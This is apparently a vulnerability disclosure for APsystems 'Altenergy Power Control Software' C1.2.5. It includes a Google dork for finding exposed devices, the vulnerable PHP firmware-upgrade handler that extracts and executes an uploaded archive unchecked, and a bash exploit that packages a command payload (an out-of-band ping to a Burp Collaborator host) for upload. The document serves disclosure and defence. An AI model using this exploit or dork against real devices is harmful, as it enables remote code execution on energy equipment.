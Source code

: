 ## title : Insufficient Verification of Data Authenticity "Altenergy Power Control Software" led to RCE
### SW ver: C1.2.5
### Vendor:  https://apsystems.com/
### Google Dork: intitle:"Altenergy Power Control Software"
### Affected device: ENERGY COMMUNICATION UNIT
![Alt Text](https://www.ecodirect.com/v/vspfiles/photos/APSYSTEMS-YC500-ECU-2T.jpg)

## POC Video :
[![Watch the video](https://i.imgur.com/vKb2F1B.png)](https://www.youtube.com/watch?v=vU-9gUUVLnc)

## vulnerable code :

"/home/local_web/pagesapplication/models/management_model.php"

```php
 public function exec_upgrade_ecu()
    {
        $results = array();
        $res_array = array();

        exec("rm -rf /tmp/update_localweb/");
        if ($_FILES["file"]["error"] > 0)
        {
            array_push($res_array, "Return Code: " . $_FILES["file"]["error"] . "<br />");
            $results["value"] = 1;
        }
        else
        {
            array_push($res_array, "Upload: " . $_FILES["file"]["name"] . "<br />");
            array_push($res_array, "Type: " . $_FILES["file"]["type"] . "<br />");
            array_push($res_array, "Size: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />");
            array_push($res_array, "Temp file: " . $_FILES["file"]["tmp_name"] . "<br />");        

            move_uploaded_file($_FILES["file"]["tmp_name"], "/tmp/" . $_FILES["file"]["name"]);
            array_push($res_array, "Stored in: " . "/tmp/" . $_FILES["file"]["name"]);
            exec("tar xjvf /tmp/".$_FILES["file"]["name"]." -C /tmp");
            exec("ls /tmp/update_localweb/assist", $temp, $value);
            exec("/tmp/update_localweb/assist &");
            $results["value"] = $value ? 1 : 0;
        }

        $results["result"] = implode("\n",$res_array);
        return $results;
    }

```

## Exploit : 

exploit.sh

```bash
#!/bin/bash
mkdir update_localweb 2>/dev/null
payload='ping -c 1 ahvmb8ham4hkik6ifzt7o8puyl4hs6.burpcollaborator.net'
echo $payload > update_localweb/assist
chmod 777 update_localweb/assist
tar cjvf b4db0t.bin update_localweb/
rm -rf update_localweb 

```
Browse to http://<IP_ADDR>/index.php/management/upgrade_ecu and upload b4db0t.bin
POC : 

![Alt Text](POC2.png)


  
